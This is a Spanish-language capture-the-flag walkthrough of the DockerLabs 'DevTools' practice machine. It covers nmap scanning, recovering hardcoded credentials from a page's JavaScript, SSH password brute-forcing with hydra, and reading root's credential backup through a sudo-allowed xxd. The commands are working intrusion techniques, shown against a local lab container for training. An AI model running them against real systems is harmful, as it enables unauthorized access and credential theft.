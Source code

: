 ```yaml
---
icon: flag
---
```


# DevTools DockerLabs (intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip devtools.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh devtools.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 11:48 EST
Nmap scan report for asucar.dl (172.17.0.2)
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
|_  256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Si entramos en la pagina nos pedira usuario y contraseña de la pagina, por lo que en algun lugar tendra que haber las credenciales en algun `js`, si inspeccionamos la pagina, veremos la siguiente linea:

```html
<script src="backupp.js" defer></script>
```

Si entramos en ese archivo, veremos lo siguiente:

```js
const usuario = "chocolate";
const contrasena = "chocolate"; // Antigua contraseÃ±a baluleroh

const solicitarAutenticacion = () => {
    const credenciales = prompt("Ingrese las credenciales en el formato usuario:contraseÃ±a:");

    if (credenciales) {
        const [entradaUsuario, entradaContrasena] = credenciales.split(":");

        if (entradaUsuario === usuario && entradaContrasena === contrasena) {
            alert("AutenticaciÃ³n exitosa. Â¡Bienvenido!");
        } else {
            alert("AutenticaciÃ³n fallida. IntÃ©ntelo de nuevo.");
            solicitarAutenticacion(); // Reintentar autenticaciÃ³n
        }
    } else {
        alert("Debe ingresar las credenciales.");
        solicitarAutenticacion();
    }
};

solicitarAutenticacion();
```

Veremos un comentario de que su antigua contraseña era `baluleroh`, por lo que para descartar posibles credenciales, pondremos como usuario y contraseña:

```
User: chocolate
Pass: chocolate
```

Por `ssh` de la siguiente forma:

```shell
ssh chocolate@<IP>
```

Metemos como contraseña `chocolate`, pero vemos que no nos funciona, si probamos la antigua contraseña `baluleroh` tampoco nos deja, por lo que tendremos que descubrir que usuario le pertenece dicha contraseña `baluleroh`:

## Escalate user carlos

```shell
hydra -L <WORDLIST> -p baluleroh ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-16 12:17:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: baluleroh
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Sacamos las credenciales del usuario `carlos`, por lo que nos conectamos por `ssh`:

```shell
ssh carlos@<IP>
```

Metemos la contraseña `baluleroh` y ya estariamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for carlos on fb5c64da956d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User carlos may run the following commands on fb5c64da956d:
    (ALL) NOPASSWD: /usr/bin/ping
    (ALL) NOPASSWD: /usr/bin/xxd
```

Y si leemos el archivo llamado `nota.txt` que esta en la `home` de nuestro usuario, veremos lo siguiente:

```
Backup en data.bak dentro del directorio de root
```

Por lo que podremos hacer lo siguiente como `root` para poder leer ese archivo:

```shell
LFILE=/root/data.bak
sudo xxd "$LFILE" | xxd -r
```

Info:

```
root:balulerito
```

Por lo que ya tendremos las credenciales de `root` solo tendremos que hacer lo siguiente:

```shell
su root
```

Metemos la contraseña `balulerito` y seremos `root`, por lo que ya habremos terminado.
